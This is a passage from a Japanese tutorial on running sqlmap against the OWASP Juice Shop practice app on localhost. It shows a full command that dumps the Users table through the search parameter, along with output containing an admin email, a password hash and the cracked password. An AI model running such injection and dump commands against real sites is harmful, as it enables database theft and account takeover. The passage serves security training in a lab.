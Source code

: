 テーブルリストを手に入れました。それでは、Users テーブルのデータを表示させてみましょう。  
`--dump` でテーブルデータを表示させます。  
`-T` でテーブルの指定、`-D` がデータベースの指定です。  
`--threads` は sqlmap のスレッド数です。1 だと遅いのでお好みで増やしてください。  

```bash
$ python3 sqlmap.py -u http://localhost/rest/products/search?q= --random-agent --batch --dump -D SQLite_masterdb -T Users --threads 5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.7.2#dev}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[02:20:32] [INFO] using hash method 'md5_generic_passwd'
[02:20:32] [INFO] using hash method 'sha256_generic_passwd'
[02:20:32] [INFO] resuming password 'admin123' for hash '0192023a7bbd73250516f069df18b500'

Table: Users
[20 entries]
+----+------------+----------------------------+----------+---------------------------------------------+------------+--------------------------------+--------------------------------+--------------------------------+----------------------------------+------------------------------------------------------------------+-------------+-----------------------------------------------+
| id | role       | email                      | isActive | password                                    | username   | createdAt                      | deletedAt                      | updatedAt                      | totpSecret                       | deluxeToken                                                      | lastLoginIp | profileImage                                  |
+----+------------+----------------------------+----------+---------------------------------------------+------------+--------------------------------+--------------------------------+--------------------------------+----------------------------------+------------------------------------------------------------------+-------------+-----------------------------------------------+
| 9  | admin      | J12934@juice-sh.op         | 1        | 0192023a7bbd73250516f069df18b500 (admin123) | <blank>    | 2023-07-27 01:42:10.212 +00:00 | NULL                           | 2023-07-27 01:42:10.212 +00:00 | <blank>                          | <blank>                                                          | <blank>     | assets/public/images/uploads/defaultAdmin.png |

```

Users テーブルが丸見えです。(実行例では省略していますが全ユーザー見えます)  
親切なことにハッシュ化されたパスワードも辞書攻撃で解析しています。  
これは個人的な予想ですが admin ロールを持ったユーザー J12934@juice-sh.op のパスワードは admin123 なんだろうなきっと。  

### 他に

今回使わなかったオプションのなかに気になるものがあるので紹介します。  

#### リクエストをテキストファイルからの読み出し
